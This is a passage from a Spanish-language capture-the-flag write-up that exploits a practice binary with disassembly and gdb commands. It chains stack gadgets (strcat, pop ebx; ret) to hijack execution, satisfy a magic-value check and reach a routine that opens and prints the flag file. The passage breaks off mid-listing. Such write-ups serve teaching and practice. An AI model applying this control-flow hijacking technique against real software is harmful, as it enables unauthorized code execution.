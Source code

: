 ```
804866c:	8d 44 24 16          	lea    eax,[esp+0x16]                   <--- Carga addr de la extensión (.text)
8048670:	89 44 24 04          	mov    DWORD PTR [esp+0x4],eax
8048674:	c7 04 24 39 a0 04 08 	mov    DWORD PTR [esp],0x804a039
804867b:	e8 90 fd ff ff       	call   8048410 <strcat@plt>             <--- Copia la extensión en memoria
8048680:	83 c4 1c             	add    esp,0x1c
8048683:	c3                   	ret    
```
¿Y esto no se podía haber visto con 'strings'? No salen los nombres completos, sale algo parecido:
```
strings please-no | grep fla
mflaf
strings please-no | grep .tex
.texf
```
Parece claro que tenemos que enviar la ejecucción a 0x8048650 y además meter el valor de la comparación (0xb0b01337):
```
set {int}0xbffff380 = 0x8048650
set {int}0xbffff388 = 0xb0b01337
```
La posición 0xbffff384 la usaremos más tarde cuando vuelva de llamar a strcat y saltarnos el 'gap' de la comparación.
Después de llamar a strcat tenemos el nombre y extensión del archivo en 0x804a039
```
>>> x/32xw 0x804a039
0x804a039:	0x616c666d	0x65742e67	0x00007478	0x00000000
```
Ahora hay que volver a buscar otro 'gadget' para saltarnos la comparación del valor y dirigir EIP en 0xbffff38c.
Para eso necesitamos algo como lo que hay en la posición 0x80483c9 (pop ebx; ret)   
```
set {int}0xbffff384 = 0x80483c9
```
¿Qué nos queda ahora? Lo siguiente será leer el fichero y que nos muestre el flag y salir del programa.
Mirando en .text encontramos lo que queremos:
```
 8048590:	56                   	push   esi
 8048591:	83 ec 08             	sub    esp,0x8
 8048594:	c7 44 24 04 d0 87 04 	mov    DWORD PTR [esp+0x4],0x80487d0
 804859b:	08 
 804859c:	c7 04 24 39 a0 04 08 	mov    DWORD PTR [esp],0x804a039   <--- Posición de memoria donde está el nombre del fichero
 80485a3:	e8 98 fe ff ff       	call   8048440 <fopen@plt>         <--- Abre el fichero
 80485a8:	89 c6                	mov    esi,eax
 80485aa:	85 f6                	test   esi,esi
 80485ac:	74 53                	je     8048601 <fgetc@plt+0x1a1>
 80485ae:	89 34 24             	mov    DWORD PTR [esp],esi
 80485b1:	e8 aa fe ff ff       	call   8048460 <fgetc@plt>         <--- Lee el fichero
 80485b6:	0f b6 c8             	movzx  ecx,al
 80485b9:	81 f9 ff 00 00 00    	cmp    ecx,0xff
 80485bf:	74 2c                	je     80485ed <fgetc@plt+0x18d>
 80485c1:	0f be c8             	movsx  ecx,al
 80485c4:	66 66 66 2e 0f 1f 84 	data16 data16 nop WORD PTR cs:[eax+eax*1+0x0]
 80485cb:	00 00 00 00 00 
 80485d0:	89 0c 24             	mov    DWORD PTR [esp],ecx
 80485d3:	e8 78 fe ff ff       	call   8048450 <putchar@plt>
 80485d8:	89 34 24             	mov    DWORD PTR [esp],esi
 80485db:	e8 80 fe ff ff       	call   8048460 <fgetc@plt>
 80485e0:	0f be c8             	movsx  ecx,al
 80485e3:	0f b6 c0             	movzx  eax,al
 80485e6:	3d ff 00 00 00       	cmp    eax,0xff
 80485eb:	75 e3                	jne    80485d0 <fgetc@plt+0x170>
```